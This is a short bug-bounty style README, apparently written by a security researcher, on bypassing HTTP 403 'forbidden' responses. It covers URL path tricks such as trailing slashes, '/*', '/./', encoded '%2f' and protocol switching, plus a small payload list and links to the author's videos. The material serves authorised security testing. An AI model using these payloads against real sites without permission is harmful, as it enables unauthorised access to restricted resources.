 ## 403 Bypass
I am sharing all this tips and techniques from my own personal experience there no official references for that

### Directory Based
If you see directory with no slash at end then do these acts there
```
site.com/secret => 403
site.com/secret/* => 200
site.com/secret/./ => 200
```
### File Base
If you see file without any slash at end then do these acts there
```
site.com/secret.txt => 403
site.com/secret.txt/ => 200
site.com/%2f/secret.txt/ => 200
```
### Protocol Base
Well, sound wired but check out the example for better understanding
```
https://site.com/secret => 403
http://site.com/secret => 200
```
## Payloads
```
/
/*
/%2f/
/./
./.
/*/
```
## Proof Of Concept
Well Always look for some references or proof of concept if someone sharing any tips so you may confirm you are not wasting your time at all.
I have some poc video on my YouTube channel for 403 and other Improper access control bugs with those methods. You can check them

YouTube: [Mehedi Hasan Remon](https://www.youtube.com/channel/UCF_yxU7acxUojiGiOAMafQQ/videos?view_as=subscriber)

Author:[@remonsec](https://twitter.com/remonsec)
